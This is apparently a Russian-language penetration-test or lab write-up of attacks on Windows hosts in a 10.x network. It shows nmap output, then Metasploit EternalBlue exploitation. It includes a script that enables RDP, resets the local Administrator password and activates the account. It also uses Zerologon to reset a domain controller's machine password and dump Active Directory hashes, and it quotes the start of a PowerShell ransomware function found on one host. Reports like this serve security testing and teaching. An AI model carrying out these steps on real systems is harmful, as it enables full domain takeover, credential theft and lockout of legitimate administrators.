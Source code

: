 # Windows
## 10.x.2.12
```
Nmap scan report for 10.18.2.12  
Host is up (0.0051s latency).  
Not shown: 988 closed tcp ports (conn-refused)  
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH for_Windows_8.6 (protocol 2.0)    
25/tcp open smtp SLmail smtpd 5.5.0.4433
135/tcp open msrpc Microsoft Windows RPC  
139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
445/tcp open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)  
3389/tcp open ssl/ms-wbt-server?   
49152/tcp open msrpc Microsoft Windows RPC  
49153/tcp open msrpc Microsoft Windows RPC  	
49154/tcp open msrpc Microsoft Windows RPC  
49155/tcp open msrpc Microsoft Windows RPC  
49156/tcp open msrpc Microsoft Windows RPC  
49157/tcp open msrpc Microsoft Windows RPC  
Service Info: Host: ling-slmail; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Действуя по правилу "видишь винду --- пробуй EternalBlue"(винду с SMB1, конечно же), пробуем через metasploit (`exploit/windows/smb/ms17_010_eternalblue`) получить доступ. У нас получается получить meterpreter сессию. Несложным скриптом (сохраненным в CP866):
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
net user Администратор 1357986Ui!
net user Администратор /active:yes
```
(Исходник лежит в https://github.com/B-nD/report)
Включаем RDP, меняем пароль локального администратора и активируем его. Подключаемся по RDP и готово --- у нас администраторский доступ на машину.

## 10.x.4.(8,10), 10.x.239.(5,6), 10.x.240.14
Тоже EternalBlue, тот же скрипт для получения прав админа...

## 10.x.3.10
При изучении логов с 10.x.1.249 мы нашли попытки использования CVE-2020-1472 на 10.x.3.10 и решили повторить. Нашли в metasploit auxiliary/admin/dcerpc/cve_2020_1472_zerologon, с его помощью сбросили пароль на NS2$, имея доступ к NS2$, получили хеши пользователей AD с помощью auxiliary/gather/windows_secrets_dump и подобрали пароль от COMPANY\Administrator, тем самым получили доступ ко всем компьютерам в домене

## 10.x.239.6
Подключаемся, находим скрипт шифрования. Читаем, понимаем, что это шифровальщик:
```ps
set-strictMode -version 2.0
function Ransom
{

Param(
    [Parameter(Position = 0)]
    [String]
    $IP='127.0.0.1'
    )

    $aesManaged=new-object "System.Security.Cryptography.AesManaged";
    $aesManaged.Mode=[System.Security.Cryptography.CipherMode]::CBC;
```